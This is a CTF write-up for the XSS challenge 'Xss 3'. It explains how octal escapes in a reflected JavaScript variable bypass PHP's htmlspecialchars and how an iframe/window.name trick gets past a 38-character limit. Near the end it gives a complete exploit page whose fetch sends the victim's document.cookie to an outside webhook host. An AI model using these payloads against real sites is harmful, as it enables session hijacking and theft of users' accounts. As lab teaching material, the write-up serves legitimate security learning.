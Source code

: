 ### Hello everyone, this is my writeup for my web challenge " Xss 3 " that had no solves in JIS CTF 2023 and CAT CTF 23 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/639ccff8-e4fb-40c3-a5ce-dbeec301f48b)

### When we open the link you will find "Enter your name " and after you send it as /?name=ghazy you will get this : 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/408207b2-30aa-4499-98bc-01a9caaa4e6a)

### Since we can clearly see our input reflected in the page so, let's try a basic payload like 
`<img src=x onerror=alert() >`  

### And we will got our input as it 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/eafb90e6-0f92-48fe-89fd-4866c4cd2130)

### Seems filtered right ? so, let's open the html source to see what happened to our payload in the reflection 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/a4d89393-7de3-4945-ad7e-1aa048ebd063)

### If u tried to drop some error by sending `name` parameter as an array you will get this error 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/a68e2425-a3e9-4efb-b1f3-ac8ea2e142b3)

### So, it's become clear now why our payload is filtered !! because our input is being passed to htmlspecialchars php function

> This function filters the html special chars like : [< , > , ' , " , &] in it's default configuration.

### So, this function is safe from bypassing ! 

### But after some hours since no one solved it, i released a hint .

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/2eee0214-63aa-4c78-8f20-b6f9ba3c1000)

### As we see in the response our input is being reflected on a js variable ! 
### So, let's see how we can use it to bypass htmlspecialchars

### If you opened your browser console and tried this :

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/9b448b0f-fb3a-44ff-8d8e-148c64919373)

### As you can see we can write a string by hex escaping using js like any programming / scripting languages ! 

### And since our input will be reflected at the js variable and the js code will print it in the page So, it should work !

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/3dc68b74-15b7-49e3-aad6-2c40bd59d4dd)


### let's try to test it in our challenge

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/238c6305-6ee2-482f-885b-5cfb713a7ffa)

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/7f5c5742-f510-48cb-9f21-8d37717a4527)

### As you can see both of them are filtered !! 

### Seems like the developer read about them in documents and filtered them and that what makes it a real life case : ) 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/82c823ca-7982-4ab5-9b34-12fd489b1db8)


### Then what about using an old escaping that has been deprecated from the js docs : D 

### Yup it's called Octal escpaing. 

> We can escape octals in strings by just using `\`

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/7c9457b5-1dca-4565-a02f-77a52b34b135)


### TBH, i got it while i was debugging my challenge i wasn't know it before : D

### I wrote a simple for loop to print all chars to figure our what's this escaping and after that i knew it's octal : ) 

### So, let's try to escape our html special chars like : [<,>]

> Our Payload : \74img src=x onerror=alert()\76

### And bingoooo, we got our xss !

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/dd303692-266a-43a4-99d7-afa0e85adb48)


### But the problem is we had only 38 chars as a length limit ! So, we can't write a pyload like this to steal the admin cookies:

```javascript

<Script>fetch('http://webhook/?c='+document.cookie)</script>
```

### It's more than 38 chars for sure ! 

### There are many ways to bypass the length limit like : window.open or 13.rs domain : D

### We will use window.open

> In js we can open a new window and control some variables like it's name !

### What about trying to eval our window.name that we will control !

### Like this 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/5b87e6fb-ef68-49e0-8859-f177af611269)


### Since our payload length passed 40 chars so it will not work also : ( 

### So, we need to do it in a smart way : D , like eval without using eval 

### If anyone searched about tiny xss payloads he will see this 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/d78bcb57-4e3d-4621-bff0-43fef076a3b4)

`<iframe/onload=src=top.name>` 

> This payload will refer the iframe src to be the top window name : ) and since we can get xss using iframe src from this payload

```javascript

<iframe src=javascript:alert()>
```

### So, let's exploit this in our side to get alert : )

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/fefb4571-539f-4c1b-9d67-fb0158bba780)

### After bypassing the limit we can use this code to get the admin cookies !

```
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <Script>window.open('http://127.0.0.1/xss3/?name=\\74iframe/onload=src=top.name\\76','javascript:fetch(\'https://dummmmmmmyyyyy.free.beeceptor.com/?c=\'+document.cookie)')</Script>
<p id="a"></p>
<script>a.innerHTML="b";</script>
</body>
</html>

```

### Just host it in any web hook like beeceptor and send it to the bot like this
![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/67634f37-645f-49e5-8080-67b8efa61caa)

### And we got the flag : )

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/d5333978-0e2a-4a2d-bb3b-08c7ab0cb507)


# Thanks for Reading and hope u enjoyed and learned from  it !
